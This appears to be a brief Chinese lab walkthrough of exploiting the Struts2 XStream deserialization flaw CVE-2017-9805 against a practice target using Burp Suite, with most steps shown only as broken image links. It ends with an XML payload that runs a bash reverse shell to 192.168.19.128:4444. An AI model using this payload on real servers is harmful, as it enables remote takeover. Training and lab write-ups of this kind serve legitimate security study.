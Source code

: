 struts2-052 远程代码执行 （CVE-2017-9805）

。漏洞的成因是由于使用XStreamHandler反序列化XStream实例的时候没有执行严格的过滤导致远程代码执行。

打开靶场

![img](file:///C:\Users\e'e't\AppData\Local\Temp\ksohtml\wpsB5D2.tmp.jpg) 

抓包

![img](file:///C:\Users\e'e't\AppData\Local\Temp\ksohtml\wpsB5D3.tmp.jpg) 

在burpsuite中改包进行重放，payload如下。

![img](file:///C:\Users\e'e't\AppData\Local\Temp\ksohtml\wpsB5D4.tmp.jpg) 

上面的数据包中执行命令的地方在这里：

![img](file:///C:\Users\e'e't\AppData\Local\Temp\ksohtml\wpsB5D5.tmp.jpg) 

执行的是创建shell.txt文件的命令，但我们需要的是获取flag，于是修改pyload,改成反弹shell的命令：
在远程命令执行过程中，由于务器不识别&这个符号，需要编码，将&换成 &，如下所示

<command>

<string>bash</string>

<string>-c</string>

<string>bash -i >& /dev/tcp/192.168.19.128/4444 0>&1</string>

</command> 